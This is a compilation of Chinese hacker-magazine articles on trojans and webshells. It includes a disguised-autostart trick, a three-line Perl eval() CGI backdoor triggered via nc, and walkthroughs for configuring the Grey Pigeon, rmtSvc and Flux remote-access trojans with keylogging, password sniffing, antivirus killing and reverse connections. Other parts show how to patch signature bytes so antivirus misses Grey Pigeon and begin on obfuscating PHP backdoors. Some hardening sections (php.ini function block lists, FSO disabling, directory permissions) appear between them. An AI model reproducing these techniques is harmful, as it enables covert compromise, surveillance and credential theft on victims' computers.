RUBOUT 为不可见字符，在“我的电脑”里显示为空格，但仍被当作一个有效的字符。所以，我们实际上通过改名构造了一个新的文件类型。由于注册表中没有此类型的文件关联，就会看到图2所示的样子。对正常的 .exe 而言，“我的电脑”里显示的许多信息，如图标、版本和 TIP 等，都由 `HKEY_CLASSES_ROOT\exefile` 下的相关项关联，而 `HKEY_CLASSES_ROOT\.exe` 只是个索引而已。为了欺骗“我的电脑”，我们只需构造新文件类型关联的索引，并让它和正常的 .exe 索引指向同一关联（exefile）。这样一来，这两种文件类……## 牧马记

现在“我的电脑”里就呈现出相同的特征，从而达到了欺骗的目的。

### 三、应用

你可能会问，费了半天劲到底有什么用呢？用处还是有一点儿的。凡用过木马的人，都不能回避一个问题：怎样偷偷地启动它而不被发现？木马大多是通过注册表启动，但稍有经验的人都会检查注册表，然后把里面可疑的自启动项干掉。不过，人们通常会保留 WINDOWS 默认安装的一些“可有可无”的自启动项，这就留下了把柄。我们完全可以按上述办法把木马改成和那些自启动文件“同名”（注册表里的启动项当然也要做相应的修改），这样就起到了李代桃僵的效果。

> 注意：想拼凑原文件来直接顶替是行不通的，WINXP 会自动恢复 `%systemroot%\system32` 下的系统文件。

### 四、讨论

有几个问题需要注意。首先，被替代的自启动项必须是可有可无的，否则就会露馅；其次，此自启动项应该是大家所熟知的，“熟视”才会“无睹”；最后，最好利用资源修改工具，把木马的图标和版本等信息改成和被替代的自启动文件完全一致。另外，这个小花招只能骗过“我的电脑”和不细心的人。到了“命令行”里，它就会露出马脚，因为“命令行”绕过了文件关联。


图4

## 简单的 CGI 后门

现在的菜鸟们在侵入某个 WEB 站点之后，总是热衷于把它培养成自己的肉鸡。不过要想在上面放置一个管理员难以发现的后门，似乎并不是件很容易的事。如果你到手的是一个支持 CGI 的肉鸡，在放置了若干“高级”的后门之后，不妨按下面的办法再放一个简单的后门，也许能起到意想不到的效果。先来看一个大家熟知的 CGI 编程漏洞例子：`system("wc -c $file")`。这句代码的意思是调用 wc 命令计算“$file”所代表的文件名字节数，而这个文件名则来源于用户的输入。不过，如果用户进行类似 `myfile; rm -fr /bin` 这样的输入，就可能给 WEB 站点造成很大的破坏……

```perl
$b=$(t());
print $b;
sub t{
  eval($in);   # $in 用户的输入
}
```

这段代码实际上只有三行，可以把它们分开放到某个 CGI 文件里相距很远的地方，以避免引起管理员的怀疑。这样一来，即使别的后门都不幸被发现并清除了，我们依然存有一线希望。你只须用 NC 连上肉鸡，再输入 `GET /cgi-bin/backdoor.cgi?in=system('命令') HTTP/1.0` 就行了。这也许还不能算是个后门，但毕竟增加了夺回肉鸡的希望。


灰鸽子 [VIP 2005] 版本已经于今年一月初正式发布，没有几天网上就有大虾写出了解密教程。一直觉得灰鸽子 [VIP 2004] 版本的稳定性不好，现在我们这些菜鸟过年的时候又有“炖鸽子肉啦”！哈哈，口水都流到衣服上了，那还等什么，动筷子啊！灰鸽子 [VIP 2005] 破解版运行后的界面如图1。

样子与以前的版本相比有所改变，所谓“鸽”大十八变，越变越好看，实在不知道该怎么形容。鸽子继续沿用以前的华丽和功能强大的特性，不过较之以前大大提高了视频质量，以后视频监控有得玩了。值得一提的就是它的服务端运行后，将创建下列文件：`%WinDir%\IExplorer.exe`，病毒程序；`%WinDir%\IExplorer.dll`，病毒程序；`%WinDir%\IExplorer_Hook.dll`，如图2。

通过修改注册表项 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Power supply management` 将病毒自身添加为服务，如图3。

员一看服务描述信息就知道不是什么好程序，我们可以在“运行”里输入 `services.msc` 打开服务，参照一下。

在“高级选项”选择不加壳和插入 `Explorer.exe`，以方便自己处理！

好了，我们现在来生鸽子，填上任意的用户名和密码，点生成服务器，乳鸽顺利降生，如图4。


图1


图2


图3

更狠的是将 `IExplorer_Hook.dll` 注入到系统每个进程中，通过 hook 系统函数来达到隐藏自身的目的。


图4

小鸽子出生不久，没穿衣服（壳），很多杀软开始认识它，我们就来给它套上迷彩服和盔甲！

迷彩服我使用 Mew 1.2，穿上这个紧身衣，胖鸽子从 911KB 瘦成 355KB 了，如图5。

现在江民和瑞星都认不出它了，我们可以选择再给它穿上盔甲，满山冰枫文件加密器进行加密，如图6。

- 1. 隐藏消息中进程可以通过任务无法查找到该程序
- 2. 隐藏服务可自定义，名称、颜色从服务列表无法检索
- 3. 隐藏消息添加所需条件按需使用，进程可不填

可惜的就是这个版本和以前版本并不兼容。可惜了我以前的肉鸡啊，要是可以自动升级服务多好啊？

解压打包回来的鸽子，慢慢揭开，先运行 `sunray.exe` 进行修改 `host` 文件，当然你可以手动修改它的位置，在 `C:\WINNT\system32\drivers\etc`，在文件末尾加上：

```
127.0.0.1    vip.hugezi.com
127.0.0.1    www.hugezi.org
```

既然鸽子配置的时候是从访问服务器下载的，我们要玩破解，自然不能合法访问它的老巢了。没有关系，我们给它搭建一个新窝，让它生更多的小鸽子。

现在开始催蛋，来到自动上线这里，可以填 `http://youname.126.com`，也可以用 FTP 的文件反弹。

这个相信大家都很熟了，我就不多说了，但是要记住勾选上只使用备用域名上线！来到下一项，安装名称，不要小看它，我们要充分利用障眼法：数字“1”“0”和字母“l”“o”的相似性，例如我使用的就是 `win1ogon.exe`。


图5


图6

现在我们的鸽子有2层衣服，一般的杀毒软件是不可能认得它的！还等什么？快上肉鸡试试！什么？你是内网，没有关系，我们来端口映射！

点击鸽子的“工具”→“内网端口映射”，生成端口映射程序。首先你得有一台外网的肉鸡，把这个生成的 Vport1.0 也用灰鸽文件加密器加密，改个迷惑人的名字在肉鸡上执行就可以了！然后我们直接来到“内网端口映射”下，“Vport 服务端 IP”就是连上的外网肉鸡的 IP，点击“连接”，连接成功后，再点“映射”，如图7。最后一步就是自动上线的 IP 也要填成这个外网肉鸡的 IP，如图8。


好了，关于灰鸽子 [VIP 2005] 版本我就简单地写到这儿了，其余详细的使用和以前版本基本上都一样，相信使用过灰鸽子的朋友们会很容易上手的。

（文中涉及到的程序灰鸽子 [VIP 2005] 版本、Mew 1.2、冰枫文件加密器已经收录于光盘中）


rmtSvc&vIDC 是一款集 ftp 服务、telnet 服务、proxy 服务以及 vIDC 服务的远程控制工具。用户可以通过该工具方便地对远程计算机进行控制。此工具采用 B/S 结构，客户端浏览器可为支持 HTML3 及以上版本的浏览器（如 IE4.0+、mozilla、netscape7.0 等）。

> 主文件 rmtSvc.exe 的上传有多种方式：

- 1. 利用 IPC 共享上传（最直接）。
- 2. ftp 上传：先准备 ftp 空间（网站或虚拟主机），将 rmtSvc&vIDC 上传到空间后在目标主机连接 ftp 下载并执行。
- 3. 工具上传：类别略。

在浏览器地址栏输入目标主机地址 `http://IP:7778`（rmtSvc 默认控制端口为 port:7778），成功连接后会出现欢迎登录界面（图1），输入默认访问密码 `123456`，即可进入 rmtSvc 的控制操作区（图2）。


怎么样，感觉很不错吧！浏览器从左到右内容是 Pview（查看进程）、Spy++（远程目标控制管理）、Proxy（rmtSvc 代理服务管理）、vIDC（vIDC 访问设置）、logoff（注销 rmtSvc）、Option（rmtSvc 参数设置）、About（登录界面）。先别急，我们现在要做的是更改 rmtSvc 的登录密码和端口。在 Option 中可更改密码、端口及运行方式，建议启用随系统启动并隐藏自身进程。在 Start Mode 中可设置启动后自动启动 FTP 和 Telnet 服务。还可选择“Auto install service”和“Forbid detaching DLL”，程序运行时会检测服务是否安装，未安装则自动安装并释放 `inject.dll`（文件名可改）。

的文件，但该文件会被杀毒软件查杀，建议更改释放文件名，或者将加壳处理后的链接库文件上传，并在释放 DLL 文件名处更改为加壳后的文件名。在 Kill Program 中，可以杀死包括 PFW.exe（天网）、KAVSvc.exe（金山毒霸）在内的绝大多数杀毒软件和软件防火墙。好了，保存设置，我们可以“为所欲为”了。再次连接目标主机，按着我们自己的设置，进入 rmtSvc 的控制界面。在 Pview 中查看目标主机的系统信息、进程（模块）信息、CPU（内存）使用信息。我们可以在窗口的右侧查看所选进程的相关信息，并且可以点击“Kill It”杀掉目标进程（图3）。rmtSvc 的 Spy++ 功能非常值得称道，我们首先可以在 Quality 中设置显示效果，设置完毕后点击“set”让设置生效。一切设置完毕后，开始我们的“破坏之旅”。当目标主机的桌面处于焦点状态时，我们可以直接敲击键盘发送信息，但笔者建议使用 rmtSvc 的 Input 输入框（在直接使用键盘输入信息时，每次按键动作都会发生一次 HTTP 连接，影响操作速度），在 Input 输入框中输入文本，回车即可。


这里需要注意的是，部分目标主机的登录密码可能无法通过 Input 输入框输入，此时可以使用 rmtSvc 的模拟键盘输入。剩下的事情，让我们展开想象的翅膀，自由飞翔吧！我们的口号是“心有多高，梦想就有多远”！

> （本文所涉及的 rmtSvc&vIDC 后门木马光盘已收录）

## 国外的迷你木马 Flux

天涯衰草

中国有句俗话：麻雀虽小，五脏俱全。如果把这句话用到介绍木马的话，国产的灰鸽子 MiNi Hacker 版当之无愧。不过今天要为大家介绍的可不是灰鸽子，而是一款由国外开发的迷你木马。这款木马虽然个头迷你，但是却支持现在流行的反弹连接技术以及线程插入技术，由于个头很小所以没有 Nuclear RAT 的超强功能，但它完全可以和灰鸽子、Nuclear RAT 一样按照自己的意思配置木马，这就是今天要为大家介绍的小巧依人的 Flux。

### 一、配置服务端

首先从网上下载最新 Flux1.0 压缩包，然后解压并运行 Flux.exe，在打开的程序界面中进行木马的各种操作。从图1中我们可以看到 Flux 的操作窗口简单明了，所有的基本操作都可以通过菜单命令完成，而肉鸡的管理也采用了列表的形式，让我们使用起来更加简便。点击“File”菜单下的“New Server”命令，现在我们来配置木马的服务端。你可不要小看 Flux 的服务端设置，用户可以自定义 DLL 插入的进程、注册表启动项、在 2000/XP/2003 等 NT 内核的操作系统下还可以注册成系统服务以及安装的服务端文件名等。

服务端程序的文件名默认的是 IExplorer.exe，这里采用了和 IE 浏览器相同的文件名，这就更加有利于服务端程序的隐藏。当然如果你不喜欢 IExplorer.exe 这个文件名，也可以更改为你喜欢的文件名。接着在“Startup”中设置服务端程序跟随系统启动的情况，选中“Autostart with windows”选项，就表示随系统启动，并且在注册表的启动项中添加木马的启动键值，默认为 IExplorer.exe，因为这里的键值需要和服务端程序文件名相同，如果你先前更改了服务端程序名称的话，这里一定要和更改的文件名一样，不然就不能随机启动。选中“Persistant Server”选项，当对方是 2000/XP/2003 等操作系统的情况下，将服务端的启动添加到系统服务中，这样服务端程序也可以起到随机启动的作用（如图2）。


“Melt server after install”选项则是当服务端程序运行后自动删除的功能。在下面的“Identification”设置肉鸡的“Name”和“Group”，这样就可以对肉鸡进行方便的管理。

“Firewall bypassing”中就是设置穿越防火墙的方法，这里使用的就是当今流行的 DLL 线程插入技术，这可是灰鸽子 MiNi Hacker 版所没有的哦。Flux 为用户提供了三种插入选择，包括“Default Browser”、“MSN Messenger”和“Specified Application”，它们分别表示将服务端程序插入到系统默认的浏览器中、MSN Messenger 即时通讯软件中，以及设置自己喜欢的程序中。在我看来，一个迷你版的木马居然提供了这样强大的线程插入选项设置，实在是难能可贵啊，而且 Flux 并没有像其它的木马一样，只会单一地将木马线程插入到 IE 浏览器或者资源管理器的进程中。这里我们就选择第三项，将木马插入到自己喜欢的程序中。我想对于国人来说，QQ 当然就是我们最好的选择，我们就将服务端程序插入到 QQ 的进程中。木马的提示说，要用“?”来代替文件路径中的“Program Files”，这里木马本身还为用户提供了一个设置示范。


在 `\Program Files\Tencent\qq.exe`，所以这里就设置为：`?\Tencent\qq.exe`，这里还要记住问号是使用的英文符号而不是中文符号（如图3）。


图3

接下来，我们就应该对木马的连接属性进行设置。首先在“Connection”中设置服务端程序和客户端程序连接时使用的端口以及连接口令，木马默认的连接端口是 2001，口令为空。这里也同样可以根据自己的意思进行更改。虽然默认时密码为空，但在生成服务端程序的时候软件会提示你密码不能为空，所以密码还是要进行必要的设置。至于连接方式，Flux 同样采用了现在流行的反弹连接方式，而且还提供了 IP 和 URL 两种反弹连接方式……在“Receive IP from URL:”下输入 `http://abc.126.com/IP.jpg`，还可以在“Encryption key”后设置加密钥匙（如图4）。


图4

当所有的设置都完成后，点击“Save”按钮就可以生成我们需要的服务端程序，如果你选中“Compress server”的话，木马就会自动使用 FSG 1.33 为服务端程序加壳。生成的服务端只有 10K 大小，非常便于我们制作网页木马。

## 客户端配置

当我们配置好服务端程序后，接着就需要对客户端进行配置，这样才能更好地对服务端进行控制。点击“Options”菜单中的“Settings”命令，在弹出的“Settings”窗口进行配置。在“Password”中填入在配置服务端时设置的连接密码，在下面的“Port”中填入连接时使用的端口……在“Timeout”后可以设置服务端连接的超时时间，默认是 15000ms。

“Use MSN style notifier”表示使用 MSN 风格进行上线通知；“Enable keylogger on connect”和“Enable PW-sniffer on connect”选项表示当客户端和服务端连接成功以后，立即进行键盘记录和对缓存密码进行嗅探（如图5）。


图5

“Autolisten on startup”选项就是客户端对服务端进行自动监听，这样就可以使服务端程序和客户端自动地进行连接。“Doubleclick brings up”下拉列表选项包括“Nothing”“Filemanager”“Screen capture”“Cam capture”和“Info popup”等。所有设置完成后，点击“OK”按钮保存退出。

## 远程控制

客户端配置完成后返回 Flux 的主界面，将生成的服务端通过网页木马等方式发布出去，然后等待中招的肉鸡来主动连接。差点忘了，应先更新 FTP 反弹连接的 IP 地址，点击“Options”菜单下的“IP Uploader”命令，在“IP Uploader”窗口中进行设置。在“FTP settings”中填写 FTP 服务器地址、端口、用户名和密码，在“IP”下填入客户端当前 IP 地址，不知道的话可点击“GET IP”（如图6）。


图6

设置完成后，点击“OK”按钮即可通过客户端对 FTP 反弹连接的 IP 地址进行更新。更新完后，再在主界面的右边找到刚刚设置的端口，选择该端口进行监听，否则我们永远等不到一台肉鸡。

由于在配置客户端时设置了“Use MSN style notifier”，当有肉鸡上线时会在屏幕右下角出现类似 MSN 好友上线的提示窗口，并且在大马的肉鸡列表中也会出现新上线记录。双击刚刚控制的肉鸡时，会弹出一个配置窗口（如图7），可点击“Assign picture”为其选择图片“标志”，还可对名称、电子邮件、ICQ、MSN 以及说明进行设置，便于区分多台肉鸡。


图7

点击右键菜单，会弹出控制服务端的远程控制命令。Flux 作为远控软件，远程文件管理功能必不可少。点击“File manager”后会弹出远程文件管理窗口，布局和 Total Commander 类似：左边为本地硬盘目录，右边为远程肉鸡目录。先点右边“Retrieve”获取最新远程目录，再通过下拉列表选择目录内容；右键可刷新、更名、删除、远程运行等；需要查找可用“Find”，下载可用“Download”，上传则先在本地选文件再右键上传（如图8）。


图8

如今的木马如果少了远程桌面和摄像头查看就不够用了，不过这些操作命令在 Flux 中都可以找到。

# 牧马记

“Capture”菜单中有“Screen”“Cam”和“Keys”3个命令。它们分别用于对远程电脑的桌面、摄像头以及键盘输入进行查看、记录。点击“Screen”命令，在弹出的“Capture”窗口中可查看远程桌面。点击工具栏上的第一个按钮，即可对远程桌面的当前情况进行捕捉；通过调整工具栏下的滑动条以及输入框中的数值，可以对捕捉画面的清晰度进行调整。点击工具栏上的箭头按钮，就可以控制对方的鼠标并对远程桌面进行控制，这样我们就可以像使用远程桌面那样方便地操作对方桌面了。对远程摄像头的查看与对远程桌面的查看操作方法相同，这里不再赘述。点击“Keys”命令，在弹出的“Keylogger”窗口中可对远程电脑当前的键盘操作进行记录。点击工具栏的第一个按钮后，服务端程序便开始记录对方键盘操作，并把记录内容发回“Keylogger”窗口。如果想长时间记录对方键盘操作，可以将“Keylogger”窗口最小化；需要查看时，点击木马主界面右下角“Windows”栏中的“Keylogger”即可还原窗口。

“Log”菜单下有“Keys”和“Passwords”两个选项。当我们选择其中一项后，Flux 客户端会命令服务端自动记录键盘击键记录以及输入并保存到缓存的密码。而“Capture”菜单中的“Keys”命令则是通过用户手动操作对键盘操作进行记录。当我们要查看相应记录时，点击“Manage”菜单下的“Log”菜单，然后选择相应选项。例如，要查看“Keys”记录，就点击“Keys”命令，然后在弹出的“Keylogs”窗口中先选择需要查看的肉鸡，即可在下面区域查看相应“Keys”记录（如图9）。

“System”菜单下的命令包括“Execute file from URL”“System information”“Tasks”“Processes”“Show messagebox”和“Operations”。


“Execute file from URL”是通过木马服务端让远程电脑下载客户端设置的链接文件并运行；“System information”用于查看远程电脑系统属性，可查看系统版本、CPU、用户名等信息。“Tasks”和“Processes”可分别查看远程电脑打开的窗口和进程（如图10）。


图中红色的进程就是服务端程序注入的进程。通过“Show messagebox”命令，我们可以做一些恶作剧，向远程电脑发送一段提示语（如图11）。远程电脑收到后，会以提示框形式自动弹出。


除了普通远程控制命令外，Flux 还可以将远程服务端电脑设置为一台 SOCKS 服务器。点击“Redirects”菜单下唯一的“SOCKS”命令，在弹出的“SOCKS”窗口中设置好“User”和“Port”两项后，点击“Enable”按钮，即可将远程电脑成功设置为 SOCKS 服务器（如图12）。


“Connection”菜单下的5个命令都是客户端程序对服务端程序进行控制的命令。“Set name”可以对服务端更名；“Close”用于关闭远程服务端；“Reconnect”可以对已关闭的服务端程序重新连接；利用“Update”命令可将新的服务端程序上传到远程电脑并替换旧服务端；“Uninstall”可彻底删除远程电脑中的服务端程序。

通过上面的介绍，我们可以看到小巧过人的 Flux 功能非常强大，这些功能有很多是国内一些优秀木马也需要学习的。我想，如果国内也有这样小巧但功能强大的木马就好了。

（本文所涉及的 Flux 木马，本期先告一段落。）

## 封杀木马、病毒启动系统服务的权限

病毒为什么会通过启动系统服务来运行木马？病毒也“有礼貌”了，刚开发出杀毒软件，国内就难免会遇到新型木马、病毒爆发。很多木马、病毒的发作机理都是通过启动 Windows 系统服务来实现的，非常狡猾。所以有必要把“木马病毒启动系统服务”的权限取消。开始→运行→regedit，且慢，把“regedit”换成“regedt32”后确定。先展开 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services`（如图1）。

再单击菜单栏中的“安全”→“权限”，在弹出的“Services 的权限”窗口中单击“添加”按钮，把 everyone 账号加入进来，并设置其权限为“读取”；后面的“允许”“拒绝”“完全控制”权限取消（如图2），最后确定并退出注册表编辑器。


# 牧马记

## 脚本木马之重现主机耻辱

李嘉义

### 前言

自从换了一家公司已经快一年了，一是由于工作太忙，再就是关于攻防方面的文章有太多人在写，也不多我一个。安全防守方面我觉得高人很多，写出去也丢人。但通过前一阵对 263 虚拟主机服务器的检测，我觉得真有必要写点东西了。想想如果进入虚拟主机的人不是我，而是个有恶意的人，把网站全删了，一个网站索赔一万，近千个网站要赔多少钱不用我算吧，这还不算由此失去众多客户带来的损失。所以该给服务器管理员们提个醒了。

### 攻击过程

前些日子，一个朋友刚做完一个网站，让我给他做下安全检测。简单看了一下，发现网站里存在 ASP 和 PHP 两种脚本，后来知道是因为空间商把 FSO 调用改了，所以我那个朋友又用了 PHP 脚本上传程序做会员上传。正因为这个 PHP 上传程序让我有了进入该服务器的机会。

利用上传漏洞，传了个 PHP 木马上去（此文主讲防护，关于上传漏洞利用一语带过）。为了证明此服务器的 ASP 木马防护能力，后来写了个测试 FSO 的 `fso.asp` 用 PHP 木马传上去，打开页面提示无效的 ProgID。由经验得知 80% 是改了 ProgID 值，于是我马上用 PHP 木马的写权限把 `fso.asp` 的 `set fso=Server.CreateObject("Scripting.FileSystemObject")` 这一句删了，在 ASP 体外加了一个 `<object runat=server id=fso scope=page classid="clsid:0043FE01-F093-11CF-8940-00A0C9054228"></object>`。

写入成功后，再打开 `fso.asp`，263 的所有盘基本情况都很清楚了（如图1）。

图1：服务器磁盘信息表（盘符、类型、总计大小、可用空间、文件系统、序列号、是否可用等）

看来执行 ASP 木马也没有问题。ASP 安全是做了，但做得不彻底，而且单 PHP 这一点就已足以给该服务器致命打击。服务器里近千个网站共用了一个操作盘（如图2），但应用隔离几乎没有！目录完全有可读写运行权限（ServU 目录下也是，如图3），想怎么处理都行！而且还可以执行 webshell。

别人的服务器被下盘，再做些垃圾数据处理，想还原也还原不了。对于同胞我虽然不可能做出这种下流事，但林子大了什么鸟都有！再或者有异族侵入，攻击就这么简单：一个极普通的小站加一个老漏洞，就能控制整个服务器！还是在中国这么知名的 263 虚拟主机。唉！我无语了……


### 防护方式

### 第一式：脚本监控

- 实施环境：Windows 操作系统。
- 实施方法：安装对脚本监控较强的防毒软件，如 Kaspersky（卡巴斯基）。
- 个人意见：实施起来比较容易，装一个好的防毒软件即可。263 主机就用了此法！但未必太管用，不是什么木马都可查杀；而且当我把程序加一下密，防毒软件也认不出来。仅可作为初级防线！

### 第二式：防 ASP 木马之 FSO 组件

- 实施环境：Windows 操作系统，IIS 模式下。
- 实施方法：通过使 FSO（FileSystemObject）组件调用失效，可使 ASP 木马运行不起来。

此文又可分为两招：  
**第一招：修改注册表中程序标识值（ProgID）**。在“开始→运行”输入 `regedit`，将注册表中的 `HKEY_CLASSES_ROOT\Scripting.FileSystemObject` 改为 `HKEY_CLASSES_ROOT\Scripting.FileSystemObjectcn90`，效果如图4。


`=Server.CreateObject("Scripting.FileSystemObjectcn90")`，使得不知道默认 ProgID 改为何值的人无法调用 FSO 组件，从而达到使 ASP 木马跑不起来的目的（如图5）。


个人意见：此招看上去管用，但若有精通的人采用 HTML 的 `<object>` 标记，通过 FSO 的类标识（CLSID）在网页里调用组件，改 ProgID 等于白改。文中讨论了 CLSID 修改方案及其局限性。

### 第二招：禁用 FSO 组件

- 出招：单击“开始→运行”，在运行对话框中输入 `RegSvr32 /u %systemroot%\system32\scrrun.dll`，成功后确定即可。


说明：利用微软自带的 RegSvr32 工具注销 FSO 组件较为方便；如需再启用，可在运行中输入 `RegSvr32 %systemroot%\system32\scrrun.dll`。

### 第二式：防 PHP 木马之关闭函数的使用

- 实施环境：支持并运行 PHP 的各类操作系统。
- 实施方法：通过修改 `php.ini`。

- 打开 `php.ini`（Windows 常见为 `%systemroot%\php.ini`，Linux 常见为 `/etc/php.ini`）
- 将 `safe_mode = Off` 改为 `safe_mode = On`
- 设置：`disable_functions = phpinfo, system, exec, passthru, shell_exec, popen, is_dir`
- 将 `display_errors = On` 改为 `display_errors = Off`
- 保存退出

补充说明：关闭 `system/exec/passthru/shell_exec/popen` 等命令执行函数可抑制 webshell，但需要结合错误提示关闭与权限策略。文中对网络常见函数黑名单给出取舍意见。

### 第三式：目录权限验证防跨站入侵

- 实施环境：Windows（NTFS）与 Linux。
- 实施方法：通过目录访问权限控制，使不同级别用户按授权访问。

### 第一招：Apache（Windows）服务器模式的目录访问权限控制

- 出招：
  - 把分区安全选项中的管理员组及 SYSTEM 等先调整（如图7）
  - 针对每个虚拟主机用户目录再增加 `everyone` 的读/写/列目录权限（如图8）

说明：该方法不仅可用于 Apache，在 IIS 之外的 Web 服务场景同样可作为权限隔离方案。


```ini
disable_functions = phpinfo, system, exec, passthru, shell_exec, popen, is_dir
safe_mode = On
display_errors = Off
```

除非那个人对你网站的目录设置情况非常了解，但我想这种人多半是内部人员，家贼难防。在这里我们不考虑这些个别因素。不过，我发现好多虚拟主机商把网站目录按网站名称命名。为了便于记忆和管理可以理解，但无形中又多了一种不安全因素。其实只要在设目录时在目录名后随机加几个字符，那么就没人能猜到每个目录名字了。举手之劳，何乐而不为呢？

个人意见：如果谈到 Apache 模式下防脚本木马，一般就是指防 PHP 木马。因为让 Apache 和 ASP 结合的人我基本没见到，除非兼容性问题；主要是近年来高版本 Apache 支持 ASP，我从没成功配置过，也没见别人成功（通过端口映射使 Apache 和 IIS 共存的情况除外）。而作为一台安全服务器，权限一定要配置，但要根据不同服务器实际情况，采用多种方式结合，才能真正达到安全有效。

其实针对 Apache 服务器，可以在 `httpd.conf` 里加一句 `php_admin_value open_basedir "你的网站目录"`，但这个方式通过我的实际经验，个人认为在内部或个人环境还行，实在不太适合虚拟主机用户，作用不大，我只提一下，有兴趣的朋友可自行研究。

### 第二招：IIS 服务器模式的目录访问权限控制


出招：先建立一个 Guests 组用户，然后对应用网站目录加入刚设的 Guests 组用户“读取和运行”权限。在 IIS 里对相应目录安全性进行编辑，把默认匿名访问用户改为对应的 Guests 用户，点确定后会提示再输入一次密码，正确输入后即可（如图9）。

说明：如果你的 IIS 除了 ASP，还支持 PHP，那么对你许可使用 PHP 的客户，在 PHP 程序目录里也要根据对应用户给予读和运行权限，`%systemroot%` 目录给予只读权限；不给权限就不能运行 PHP。所以建议安装 PHP 时不要在默认目录用默认名，以防路径被猜出，增加不安全隐患。

个人意见：此方式对每个用户做了单独授权，未经授权的地方不能访问，所以能较好地控制每个用户活动范围。这也是我在 Windows 服务器里比较喜欢的一种设置方式。特别提示：由于 ASP 程序里很多人使用 Access 数据库，而上述权限配置因目录继承原因，可能导致 Access 数据库无法写入，那么使用此类数据库的 ASP 程序就无法正常运行。如果是网站数量不多的内部服务器，可以为数据库文件单开写权限。但对于虚拟主机来说，这样做并不现实。所以在给予网站目录权限时就要把写权限加上（如图10）。


### 第三招：Linux 类服务器模式的目录访问权限控制

```bash
chmod 711 chameleon
```


说明：由于能管理和配置 Linux 系统的管理员一般都比较专业，这里不对 Linux 目录权限作更多讲述。设为 711 权限后，PHP 木马将无法读写及浏览目录内所有文件，以此达到防止跨站攻击的目的。个人意见：仅设为 711 权限对服务器安全并不够，还需综合多种安全设置结合，例如在防 PHP 木马上还要对 `php.ini` 做相应设置。

### 后记

说实话本人文笔有限，其实还有很多想写的。出于篇幅和本文主题，没敢写太多。因为要把网络安全防范写得全面与精楚，那就该出书了。此文只是网络安全中的冰山一角。考虑到有些设置并非专门防脚本木马，也就不再多讲，不然引出的话题会更多。由于工作之余写此文，忙碌之际必有疏漏之处，希望高人们多提意见和建议。


## 打造最强的灰鸽子2005

chenggong

我们梦寐以久的灰鸽子2005终于上市了，据说视频监视质量大大提高，稳定性也加强了，还具有隐藏进程和自身文件等功能。可一直没有得到灰鸽子2005破解版。随着《X档案》2005第2期的到来，灰鸽子2005也来到了我的电脑。按照说明配置好服务端，并给服务端加壳，然后在自己的电脑上运行灰鸽子服务端，想看一下灰鸽子的威力，不好！

报警并且很快将鸽子杀死。鸽子刚出生一个多月，就已被杀毒软件列为“通缉犯”，小鸽子真不幸！眼看功能如此强大的鸽子无法使用，郁闷啊！重新换一个壳还是不行。仔细想想也对：加壳只能给主程序 exe 文件加壳，但病毒防火墙杀死的是主程序生成的 dll 文件，dll 文件没了，程序当然无法运行，看来只有另想高招。

把金山毒霸病毒防火墙关闭后，再运行灰鸽子服务端，在自己的电脑上重新种植灰鸽子。种植完成后到 Windows 目录下查看，果然没有发现新增文件，看来鸽子确实具有隐藏自身文件功能。只好重启系统进入安全模式，在 Windows 目录下终于发现新增了4个文件，分别为 `IE.exe`、`IE.dll`、`IE_hook.dll`、`IEkey.dll`（后来发现 `IEkey.dll` 为键盘记录文件，安装完不使用键盘记录功能不释放，所以也可能只看到3个文件），其中的 IE 为我配置灰鸽子时的名字。将这4个文件复制出来，重启进入正常模式，复制出的4个文件怎么没了？原来是灰鸽子没有卸载，连复制出来的文件也隐藏了（可将以 IE 为文件名、具有系统和隐藏属性的 exe/dll 文件隐藏，而且不论在什么位置都看不到；利用的是 Rootkit 技术）。

将这四个文件显示出来后，用金山毒霸查杀，3个 dll 文件全部报毒，`IE.exe` 因为加壳缘故没有报警……拿出资源修改软件 Restorator 2004 汉化版，先用 Restorator 打开 `IE.EXE`，找到 RCData，将 MAINDLL 导出为 `IE.dll`。


比较发现与 Windows 目录下的 `IE.dll` 一致；同样方法导出 GETKEY 与 HOOK 并比较。继续研究后判断 `IE.EXE` 为主程序，`IE.dll` 负责释放并注入相关模块，`IE_hook.dll` 起隐藏作用，`IEkey.dll` 起键盘记录作用。

知道原理就好改造：将 `IE_hook.dll` 和 `IEkey.dll` 修改后导回 `IE.dll`，再导回 `IE.exe` 并处理加壳。文中说明了使用灰鸽子控制端、服务端、WinHex 分段填充定位病毒码的方法与注意事项。

首先用 WinHex 打开导出的 `IE_hook.dll` 分成10份逐段填充，逐步用金山毒霸查杀定位到特征码；再在综合设置中调整处理方式，保留含毒样本继续缩小范围。

右栏继续说明在 `IE_hook.dll` 中把末尾字节“66”改为“63”（或其他值）后不再报毒；并在 `IEkey.dll` 中定位到对应偏移做同类修改，再把修复后的模块重新导入 `IE.dll` 与 `IE.exe`。


文中给出更多偏移与字节替换示例（如 F2F 改 F1、52 改 65 等），并记录了在杀毒软件、防火墙与内存查杀下的测试结果：服务端可运行，多数功能正常，内存查杀无毒。

最后讨论已感染样本清除：普通查杀难以彻底删除，需要在安全模式或命令行下定位相关文件（如 `*._hook.dll`、`IE.dll`、`IEkey.dll`），再取消系统/隐藏属性后删除。


# 牧马记

统、隐藏、只读属性后，再用 del 命令分别删除就可以了。重启系统后，将注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services` 下面的 `Ie` 支键删除。然后在注册表中查找与 IE.exe 有关的键值并删除（删除前请备份注册表），这样灰鸽子就完全清除了。以上只是我在金山毒霸下做的实验，对其他病毒防火墙同样适用，不过对于瑞星、诺顿等病毒防火墙改造起来可能更复杂些，你们可试验一下。以上观点有不对的地方，欢迎到 X 档案论坛交流。

> （本文所涉及的灰鸽子2005、Restorator 2004、WinHex 已收录到本期光盘中）

### 小议PHP后门的脚本变形

浅蓝的辐射鱼（F.S.T）

之所以写这篇文章，是因为我最近上传 phpspy2006 的时候经常被杀毒软件 kill 掉，而且家中的 KV2005 也经常做出要清除小A发送给我的 phpspy2006 demo 的动作。所以就在想怎么让自己的后门躲避杀毒软件存活下去。

不知道大家是否还记得以前 superhei 写过一篇 ASP 的脚本变形，最近学习 PHP 的时候对 PHP 的变形有点想法，可以躲避杀毒软件对我们后门的穷追不舍。测试的结果是，在那些原来传上去就被杀了的主机上，我的后门再也没有被查杀过了。

首先，我们来把这个变形原理说一下，就从一句简单的 PHP 脚本开始。先给大家看一段代码：

```php
<?php echo "测试"; ?>
```

